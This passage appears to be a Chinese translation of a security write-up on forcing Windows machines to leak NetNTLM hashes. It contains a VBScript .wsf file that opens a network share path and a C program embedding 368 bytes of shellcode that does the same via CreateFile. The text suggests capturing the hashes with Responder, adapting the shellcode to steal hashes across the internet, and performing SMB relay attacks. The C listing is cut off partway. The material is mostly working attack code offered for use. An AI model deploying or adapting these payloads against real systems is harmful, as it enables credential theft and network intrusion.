 将此另存为 something.wsf。

```
<package>
  <job id="boom">
    <script language="VBScript">
       Set fso = CreateObject("Scripting.FileSystemObject")
       Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
    </script>
   </job>
</package>
```

# 外壳代码

这是我做的一个小外壳代码。此外壳代码使用 CreateFile 并试图读取不存在的网络路径。您可以使用 Responder 之类的工具来捕获 NetNTLM 哈希。外壳代码可以被修改，以窃取互联网上的哈希。SMBRelay 攻击也可以执行。

```
/*
    Title: CreateFile Shellcode
    Author: Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
    Website: [https://osandamalith.com](https://osandamalith.com)
    Size: 368 Bytes
*/
# include <stdlib.h>
# include <stdio.h>
# include <string.h>
# include <windows.h>

int main() {

  char *shellcode = 
  "\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x4c\x03\x02\x02\x81\xf1\x02\x02"
  "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
  "\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x29\x01\x05\x05"
  "\xb9\x02\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x56\xb9\x8d\x10"
  "\xb7\xf8\xe8\x5f\x05\x05\x05\x68\x31\x01\x05\x05\xff\xd0\xb9\xe0"
  "\x53\x31\x4b\xe8\x4e\x05\x05\x05\xb9\xac\xd5\xaa\x88\x8b\xf0\xe8"
  "\x42\x05\x05\x05\x6a\x05\x68\x80\x05\x05\x05\x6a\x03\x6a\x05\x6a"
  "\x01\x68\x05\x05\x05\x80\x68\x3e\x01\x05\x05\xff\xd0\x6a\x05\xff"
  "\xd6\x33\xc0\x5e\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c\x61\x0f\xbe"
  "\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0\x75\xea\x8b"
  "\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53\x56\x57\x89"
  "\x4d\xf4\x64\xa1\x30\x05\x05\x05\x89\x45\xfc\x8b\x45\xfc\x8b\x40"
  "\x0c\x8b\x40\x14\x89\x45\xec\x8b\xf8\x8b\xcf\xe8\xd2\xff\xff\xff"
  "\x8b\x70\x18\x8b\x3f\x85\xf6\x74\x4f\x8b\x46\x3c\x8b\x5c\x30\x78"
  "\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff\xff\xff\x8b"
  "\x4c\x33\x20\x89\x45\xf8\x33\xc0\x03\xce\x89\x4d\xf0\x89\x45\xfc"
  "\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75\xff\xff\xff"
  "\x03\x45\xf8\x39\x45\xf4\x74\x1c\x8b\x45\xfc\x8b\x4d\xf0\x40\x89"
  "\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c\x33\xc0\x5f"
  "\x5e\x5b\xc9\xc3\x8b\x4d\xfc\x8b\x44\x33\x24\x8d\x04\x48\x0f\xb7"
  "\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04\x30\x03\xc6\xeb\xdf"
  "\x21\x05\x05\x05\x50\x05\x05\x05\x6b\x65\x72\x6e\x65\x6c\x33\x32"
  "\x2e\x64\x6c\x6c\x05\x2f\x2f\x65\x72\x72\x6f\x72\x2f\x61\x61\x05";

  DWORD oldProtect;

    wprintf(L"Length : %d bytes\n@OsandaMalith", strlen(shellcode));
    BOOL ret = VirtualProtect (shellcode, strlen(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    if (!ret) {
        fprintf(stderr, "%s", "Error Occured");
```